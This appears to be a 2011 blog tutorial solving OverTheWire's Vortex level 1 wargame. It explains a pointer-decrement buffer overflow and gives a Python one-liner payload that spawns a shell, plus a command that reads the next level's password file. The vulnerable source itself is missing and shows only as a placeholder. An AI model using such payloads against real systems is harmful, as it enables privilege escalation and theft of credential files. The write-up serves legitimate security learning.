 Title: overthewire, vortex: level 1
Date: 2011/10/07 23:55
Author: Ken Ko
Tags: overthewire.org, buffer overflow
Category: tutorials

The code:

[codebox 1]


So normally we want to overflow in a positive direction, but here we have a pointer value that we want to manipulate which is allocated <em>after</em> our overflow buffer. Good thing the switch gives us a way to decrement that pointer, eh?

Since ptr is in the middle of the 512 size buffer, let's give this a try:

<code>
vortex1@games /vortex $ python -c 'print "\\" * 257 + "\xca!"' | /vortex/level1
sh-3.2$ exit
vortex1@games /vortex $
</code>

However, because that doesn't give us a legit shell, let's pass in the cat request along with the exploit. 


<code>
cat <(python -c 'print "\\" * 257 + "\xca!"') <(echo cat /etc/vortex_pass/vortex2) | /vortex/level1
</code>

Awesome.
